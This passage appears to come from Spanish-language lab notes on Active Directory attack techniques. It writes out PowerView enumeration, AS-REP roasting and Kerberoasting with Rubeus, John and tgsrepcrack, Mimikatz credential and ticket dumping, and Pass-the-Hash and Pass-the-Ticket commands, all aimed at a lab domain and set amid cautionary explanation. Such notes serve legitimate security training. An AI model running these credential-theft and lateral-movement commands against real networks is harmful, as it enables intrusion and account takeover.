<p align="center"></p>
<p align="center"><sub><strong>Selección de atributos de usuario.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Consulta de una cuenta concreta.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Propiedades de una identidad.</strong></sub></p>

</details>

#### Equipos, grupos y pertenencia

```powershell
Get-NetComputer | Select-Object Name,Cn,OperatingSystem
Get-NetComputer -Domain lab.example | Select-Object Cn,OperatingSystem
Get-NetGroup | Select-Object Name
Get-NetGroup 'Domain Admins'
Get-NetGroupMember 'Domain Admins' | Select-Object MemberName
Get-NetGroup -UserName alumno | Select-Object Name
```

Los nombres de los grupos pueden estar traducidos. Identifica el objeto y sus miembros; un nombre parecido a un grupo privilegiado no acredita sus permisos.

<details>
<summary><strong>📸 PowerView: equipos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de equipos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Nombres de equipos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Sistemas de los equipos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una consulta de equipos.</strong></sub></p>

</details>

<details>
<summary><strong>📸 PowerView: grupos y pertenencia</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de grupos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Nombres de grupos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información de un grupo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Miembros de un grupo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Pertenencia de una cuenta.</strong></sub></p>

</details>

#### Recursos compartidos, GPO y OU

```powershell
Find-DomainShare -ComputerName app01.lab.example -Verbose
Find-DomainShare -ComputerName app01.lab.example -CheckShareAccess -Verbose
Get-NetShare -ComputerName app01.lab.example
Get-NetGPO | Select-Object DisplayName
Get-NetOU | Select-Object Name,DistinguishedName
```

Descubrir un recurso, poder leerlo y poder modificarlo son resultados diferentes. Para una GPO, revisa dónde está vinculada y a qué identidades se aplica; ver el objeto no demuestra que puedas editarlo.

<details>
<summary><strong>📸 PowerView: recursos compartidos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de recursos compartidos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Visibilidad de recursos compartidos.</strong></sub></p>

</details>

<details>
<summary><strong>📸 PowerView: GPO y OU</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Políticas de grupo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Unidades organizativas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Propiedades de unidades organizativas.</strong></sub></p>

</details>

#### Bosques y relaciones de confianza

```powershell
Get-NetDomainTrust
Get-NetForest
Get-NetForestTrust
Get-NetForestDomain
```

Una confianza relaciona dominios o bosques, pero no concede por sí sola administración. Interpreta dirección, alcance y permisos de la identidad utilizada.

<details>
<summary><strong>📸 PowerView: bosques y confianzas</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Relaciones de confianza.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información del bosque.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Confianzas entre bosques.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una consulta de confianza.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Dominios del bosque.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Selección del bosque consultado.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Mapa histórico de confianzas.</strong></sub></p>

</details>

<a id="ad-permisos"></a>
#### ACL y permisos sobre objetos

```powershell
Get-ObjectAcl -SamAccountName alumno -ResolveGUIDs
Find-InterestingDomainAcl -ResolveGUIDs |
    Select-Object IdentityReferenceName,ObjectDN,ActiveDirectoryRights
```

Relaciona **quién recibe el permiso → sobre qué objeto → qué operación permite**. Revisa herencia y permisos efectivos. Una ACE con `WriteProperty` necesita interpretarse según el atributo y el objeto; no significa control total de cualquier cuenta.

<details>
<summary><strong>📸 PowerView: ACL y permisos de objetos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>ACL de un objeto.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Identificación de permisos en AD.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Principal y objeto de una ACL.</strong></sub></p>

</details>

<a id="bloodhound"></a>
### BloodHound y SharpHound

El laboratorio original utiliza el colector PowerShell:

```powershell
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

Ese ejemplo corresponde a la interfaz de las capturas. El colector debe ser compatible con la instalación de BloodHound utilizada. Importa el ZIP generado y localiza tu usuario, sus grupos, los equipos y las relaciones relevantes.

| Relación observada | Qué confirmar |
|---|---|
| Pertenencia a un grupo | Grupo, miembros y pertenencia efectiva |
| Administración local | Identidad, equipo y operación administrativa realmente permitida |
| Sesión de un usuario | Que la sesión siga presente; verla no implica poder leer sus secretos |
| Permiso sobre un objeto | Principal, objeto, herencia y operación permitida |
| Cuenta con SPN | Cuenta de servicio y nombre del servicio; no implica contraseña débil |

El grafo organiza datos recopilados. La ruta debe justificarse con los permisos y el estado actual del laboratorio.

<details>
<summary><strong>📸 SharpHound y BloodHound</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Datos de un colector de AD.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Importación histórica de un grafo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información de usuarios en el grafo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Relación entre SPN e identidad.</strong></sub></p>

</details>

<a id="as-rep"></a>
### AS-REP roasting

**Condición:** una cuenta tiene deshabilitada la preautenticación de Kerberos. La consulta de PowerView de los apuntes localiza candidatos:

```powershell
Get-NetUser -PreauthNotRequired |
    Select-Object SamAccountName,UserAccountControl
```

Rubeus también aparece en los apuntes originales para esta prueba:

```powershell
.\Rubeus.exe asreproast /user:alumno /outfile:asrep.hash
.\john.exe .\asrep.hash --format=krb5asrep --wordlist=.\10k-worst-pass.txt
```

El material AS-REP no es una contraseña en claro. El resultado depende de la configuración de la cuenta, el formato recibido y los candidatos probados. Una credencial recuperada debe corresponder a la cuenta y al dominio correctos.

<details>
<summary><strong>📸 AS-REP: PowerView, Rubeus y John</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Propiedad de preautenticación.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Atributos relacionados con preautenticación.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una consulta Kerberos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Formato de material Kerberos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Preparación de material de laboratorio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Interpretación de un resultado offline.</strong></sub></p>

</details>

<a id="kerberoasting"></a>
### Kerberoasting y tickets de servicio

Con una identidad de dominio, los apuntes revisan cuentas con SPN y solicitan un ticket para un servicio concreto:

```powershell
Get-NetUser | Where-Object { $_.ServicePrincipalName } |
    Select-Object SamAccountName,ServicePrincipalName
setspn -T lab.example -Q */*
klist
```

La consulta se limita al ámbito indicado; no supone enumerar automáticamente todos los dominios de un bosque. Un SPN relaciona un servicio con una cuenta y no acredita una contraseña débil.

En Windows PowerShell con los componentes utilizados en el laboratorio:

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/app01.lab.example'
```

El SPN es ilustrativo: debe existir en el laboratorio. El ticket solicitado puede revisarse en la sesión y el ejemplo original lo exporta con Mimikatz:

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

La fuente utiliza este tratamiento offline de un archivo `.kirbi`:

```powershell
python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\servicio.kirbi
```

El formato, el cifrado del ticket y la compatibilidad de esa herramienta condicionan el resultado. Tener un ticket de servicio no implica conocer la contraseña de su cuenta.

<details>
<summary><strong>📸 SPN y tickets de servicio</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Cuentas con SPN.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Cuentas de servicio y SPN.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de SPN.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Relación entre SPN y cuenta.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Tickets de una sesión.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de solicitud de un ticket.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Inventario histórico de tickets.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Archivos de tickets del laboratorio.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Tratamiento offline de un ticket.</strong></sub></p>

</details>

<a id="mimikatz"></a>
### Mimikatz: contexto y material de autenticación

`Invoke-Mimikatz.ps1` es el script utilizado en los apuntes; debe estar disponible localmente. Sus funciones se cargan en la sesión PowerShell:

```powershell
. .\Invoke-Mimikatz.ps1
```

| Comando de los apuntes | Qué examina o solicita |
|---|---|
| `privilege::debug` | Intenta habilitar el privilegio de depuración que el token ya puede poseer |
| `token::elevate` | Intenta usar un token accesible al contexto actual |
| `sekurlsa::logonpasswords` | Consulta material de autenticación accesible en las sesiones de inicio de sesión |
| `sekurlsa::tickets /export` | Exporta tickets accesibles mediante ese contexto |
| `kerberos::list /export` | Revisa y exporta tickets del contexto Kerberos disponible |
| `kerberos::ptt` | Importa un ticket en el contexto correspondiente |

Los permisos, el token y las protecciones del sistema limitan estas operaciones. `privilege::debug` no concede un privilegio ausente; una sesión de tipo interactivo tampoco garantiza secretos recuperables.

<a id="ad-pth"></a>
### Pass-the-Hash y acceso remoto

Los apuntes comprueban primero el equipo y los permisos de la identidad:

```powershell
Get-Domain
Find-LocalAdminAccess
whoami /all
```

`Find-LocalAdminAccess` realiza comprobaciones de acceso; revisa qué equipos ha consultado y qué respuesta obtuvo. El resultado no equivale a administrar el controlador de dominio.

El ejemplo de Mimikatz crea un proceso con material NT de una cuenta del laboratorio:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:alumno /domain:lab.example /ntlm:NTHASH_DEL_LABORATORIO /run:powershell.exe"'
```

El marcador del hash debe sustituirse por material válido de esa cuenta. PtH afecta a la autenticación; los permisos dependen de la identidad. `whoami` del proceso no basta para acreditar qué credenciales utiliza una conexión de red.

Desde la nueva ventana de PowerShell creada por `sekurlsa::pth`, inicia la sesión remota usando el nombre del equipo:

```powershell
Enter-PSSession -ComputerName app01.lab.example
whoami /all
hostname
```

Se requiere servicio de remoting disponible y autorización de la cuenta; no se obtiene por disponer de un hash de cualquier usuario.

<details>
<summary><strong>📸 Mimikatz y administración local con un hash</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Dominio y controlador utilizados.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Relaciones de administración local.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Sesión remota en un equipo.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Inventario histórico de tokens.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una identidad privilegiada.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Ámbito de autenticación de una sesión.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Acceso remoto a un controlador.</strong></sub></p>

</details>

<a id="ptt"></a>
### Pass-the-Ticket con Mimikatz

Con los permisos necesarios sobre el contexto del laboratorio, los apuntes exportan tickets y estudian un archivo concreto:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
Invoke-Mimikatz -Command '"kerberos::ptt C:\Lab\alumno.kirbi"'
klist
```

Comprueba identidad, servicio, dominio, vigencia y sesión de inicio de sesión. `Renew Time` o el límite de renovación no equivalen a una validez indefinida. `klist` muestra tickets; no confirma administración. Verifica el acceso al recurso concreto con la identidad efectiva de red.

<details>
<summary><strong>📸 Mimikatz: importación de tickets y acceso a recursos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Host y permisos efectivos.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Archivos de tickets de una sesión.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de importación de un ticket.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Inventario posterior de la caché.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Acceso observado a un recurso.</strong></sub></p>

</details>

<a id="tickets-conceptos"></a>
### Silver Ticket y Golden Ticket

Los apuntes utilizan el módulo `kerberos::golden` de Mimikatz para estudiar ambos casos. La diferencia está en el material requerido y el tipo de ticket, no solo en el nombre del comando:

| Caso | Material que debe corresponder al laboratorio | Qué representa |
|---|---|---|
| Silver Ticket | Clave de la cuenta que presta el servicio, SID/contexto del dominio y servicio/destino | Ticket para ese servicio |
| Golden Ticket | Clave de `krbtgt` y contexto del dominio | TGT del dominio |
| Pass-the-Ticket | Ticket existente y utilizable | Importación o reutilización dentro de su ámbito |

El hash de Administrator no sustituye a la clave de `krbtgt`. Las protecciones del dominio, la validación del ticket, su vigencia y el servicio solicitado condicionan el acceso. Listar tickets no demuestra que una operación administrativa esté autorizada.

<details>
<summary><strong>📸 Silver Ticket: clave y servicio</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Información histórica de secretos locales.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Registro histórico de un ticket de servicio.</strong></sub></p>

<p align="center"></p>
